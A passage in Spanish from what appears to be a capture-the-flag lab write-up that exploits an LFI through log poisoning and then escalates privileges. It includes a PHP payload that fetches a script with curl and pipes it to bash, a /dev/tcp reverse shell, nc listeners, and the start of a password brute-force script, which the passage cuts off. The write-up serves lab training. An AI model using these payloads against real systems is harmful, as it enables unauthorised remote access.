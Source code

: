 ```css
nc reverse.dl 80
```

una vez se queda "pillado", metemos lo siguiente:

```css
GET /<?php system('curl 172.17.0.1/shell | bash') ?>
```

Creamos un archivo llamado shell el cual contenga esto:

```css
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Montamos un servidor con `python`:

```css
sudo python3 -m http.server 80
```

y escuchamos en el puerto 443:

```css
sudo nc -nlvp 443
```

finalmente recargamos la página del lfi con el log, y nos llegará una solicitud al servidor de python, luego de que llegue deberíamos estar dentro.

# Escalada de Privilegios

#### www-data

Primero realizamos un tratamiento de la tty para estar cómodos.

Si ejecutamos `sudo -l` veremos lo siguiente:

```css
┌──[www-data@d28771631d95]─[/var/www/subdominio]
└──╼ $ sudo -l
Matching Defaults entries for www-data on d28771631d95:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on d28771631d95:
    (nova : nova) NOPASSWD: /opt/password_nova
┌──[www-data@d28771631d95]─[/var/www/subdominio]
└──╼ $ 
```

esto significa que podemos ejecutar como el usuario nova el script o binario `/opt/password_nova`, el cual si lo probamos nos pide otra vez una contraseña, pero nos da la pista de que se encuentra en el rockyou. Sabiendo esto, pasaremos el rockyou a la maquina victima usando nueva mente un servidor de python, y luego crearemos un script en `/tmp` con el siguiente contenido:

```bash
#!/bin/bash

if [ $# != 1 ]; then
  echo -e "Uso: $0 <wordlist>"
  exit 1
fi


wordlist=$1

salir(){
  exit 1
}
```